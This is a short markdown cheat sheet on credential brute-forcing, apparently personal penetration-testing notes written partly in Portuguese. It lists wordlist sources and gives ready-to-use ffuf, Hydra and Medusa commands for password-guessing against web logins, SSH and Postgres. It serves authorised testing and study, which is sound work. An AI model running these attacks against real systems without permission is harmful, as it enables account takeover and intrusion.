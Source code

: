 ## Brute-Force
### Wordlists
#### Assetnote
```https://wordlists.assetnote.io/```

#### Seclists
```sudo apt install seclists```

Search in Seclists
```find /usr/share/seclists -iname “*[string]*”```

### FFUF
[1] Copia a requisição do burp e salva em um arquivo .txt<p>
[2] Adiciona nos campos de login: FUZZUSER e FUZZPASS

```ffuf -request req.txt -request-proto https -mode clusterbomb -w /usr/share/seclists/users.txt:FUZZUSER -w /usr/share/seclists/pass.txt:FUZZPASS -mc 302```

### HYDRA
#### SSH
```
hydra -v -l [username] -P senhas.txt [IP] ssh -s [PORT]
```
### MEDUSA
#### POSTGRES
Instalação do client no Ubuntu ```apt install postgresql-client-common```
```
medusa -H ips.txt -u [nome-do-usuario] -p [senha] -M [modulo] -n [porta]

### ver os módulos

medusa -d 
```


